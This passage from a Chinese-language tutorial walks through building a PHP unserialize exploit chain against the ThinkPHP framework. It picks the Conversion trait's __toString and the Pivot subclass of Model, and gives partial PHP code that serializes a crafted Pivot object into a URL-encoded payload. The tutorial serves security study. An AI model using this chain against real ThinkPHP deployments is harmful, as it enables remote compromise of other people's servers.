

#### 7）选择Conversion类触发__toString方法

好多类有`__toString()`方法，我们要选择一个有利用链的类，比如Conversion类。

Conversion类是一个trait修饰的类，是为了代码复用，被其他类使用（use）的一个类，它是无法进行实例化成为一个对象的。我们可以查找哪个类使用了Conversion类，它的子类也会继承`__toString()`这个方法。我们在项目中进行搜索哪个类使用了Conversion：

我们刚开始选择的Model类就use了Conversion类，但是Model类是一个抽象类（abstract修饰），也是无法实例化成为一个对象的，我们还需要继续查找继承了Model类的子类。

查找关键字“`extends Model`”：

从搜索结果中看到，Pivot类继承了Model类，并且是一个正常的可以被实例化的类，那我么就使用Pivot类实例化为对象传给`$this->table`，成为字符串拼接触发时使用的对象。那我们继续补充exploit：

```php
<?php

namespace think{

    abstract class Model{

        private $lazySave = false;

        private $data = [];

        protected $withEvent = true;

        private $exists = false;

        private $force = false;

        protected $table;

        function __construct($obj='')

        {

            $this->lazySave = true;

            $this->data = ['xxx'];

            $this->withEvent = false;

            $this->exists = true;

            $this->force = true;

            $this->table = $obj;

        }

    }

}

namespace think\model{

    use think\Model;

    class Pivot extends Model{}

    $p = new Pivot(new Pivot());

    echo urlencode(serialize($p));

```